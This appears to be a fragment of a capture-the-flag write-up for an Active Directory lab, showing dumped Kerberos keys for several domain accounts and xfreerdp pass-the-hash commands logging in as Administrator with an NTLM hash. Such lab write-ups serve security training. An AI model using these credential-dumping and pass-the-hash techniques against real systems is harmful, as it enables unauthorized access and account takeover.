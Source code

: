 ```
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:9f0654d0c1bf2848a6479d49ec676e28fadb5de619bdeeb7c3862cfbf9fad8a0
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:fa747d1de3b37d54d18dd13370ad252c
ATTACKTIVEDIREC$:des-cbc-md5:1625a7264c8a32b6
[*] Cleaning up...
```

-----

# CONEXION VIA RDP

❯ xfreerdp /u:Administrator /pth:0e0363213e37b94221497260b0bcb4fc /v:10.10.191.145
❯ xfreerdp /u:a-spooks /pth:0e0363213e37b94221497260b0bcb4fc /v:10.10.191.145
